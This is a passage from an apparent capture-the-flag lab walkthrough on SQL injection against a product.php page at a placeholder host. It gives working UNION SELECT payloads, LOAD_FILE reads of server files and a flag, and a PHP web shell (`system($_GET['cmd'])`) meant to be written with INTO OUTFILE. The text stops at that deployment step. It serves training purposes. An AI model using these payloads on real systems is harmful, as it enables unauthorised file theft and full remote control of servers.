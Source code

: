 -   Use `UNION SELECT` with numbers to see which columns are displayed.
-   Example (if 3 columns): `http://MACHINE_IP/product.php?id=-1' UNION SELECT 1,2,3-- -`
-   Observation: The page will display the numbers (e.g., `1, 2` and `3`). These are where you can inject your data.

Module 2: File System Interaction via SQLi
------------------------------------------

*Goal:** Understand *`*LOAD_FILE()*`* and find the path to the hidden flag file.*

1.  Research `LOAD_FILE()`: Briefly understand that `LOAD_FILE('/path/to/file')` can read files if the database user has `FILE` privileges and the file is readable.
2.  Locate the Target File (`flag.txt`):

-   The flag file (`flag.txt`) is not directly web-accessible. You need its absolute path from public files .
-   Example for finding clues: Try injecting `http://MACHINE_IP/product.php?id=-1' UNION SELECT 1, LOAD_FILE('/var/www/html/server_notes.txt'), 3-- -` (adjust displayable column and filename).
-   Simpler Way: You might also find direct clues by simply Browse to `http://MACHINE_IP/secret_notes.txt` in the browser.

Module 3: The Final Extraction
==============================

*Goal:** Read the *`*flag.txt*`* file and retrieve its content.*

-   You can just go to `/absolute/path/to/flag.txt` and read the flag
-   or you can go with load_file `http://MACHINE_IP/product.php?id=-1' UNION SELECT 1, LOAD_FILE('/absolute/path/to/flag.txt'), 3-- -`
-   or if you have tried, you can get the flag with just `/var/www/html/flag.txt`

> FLAG{FileReadSQLiSuccess}

Task 4: The Ultimate Control --- Remote Code Execution (RCE)
==========================================================

*This is the ultimate challenge! You'll escalate your SQL Injection skills to gain Remote Code Execution (RCE) by writing a malicious web shell to the server. This will give you full command-line control.*

Module 2: Identifying the Attack Vector & Crafting the Shell
------------------------------------------------------------

*Goal:** Understand the RCE attack vector and prepare a simple web shell.*

1.  Attack Vector: Your target is still the `product.php` page from Task 3. It's vulnerable to `UNION SELECT`, which we'll combine with file writing.
2.  Web Shell Code: You'll write a simple PHP web shell.

-   Shell Content: `<?php system($_GET["cmd"]); ?>`
-   Purpose: This code takes a command from the `cmd` URL parameter (e.g., `?cmd=whoami`) and executes it on the server.

Module 3: Deploying the Web Shell (INTO OUTFILE)
------------------------------------------------

*Goal:** Use SQL Injection to write your web shell to a web-accessible directory on the server.*
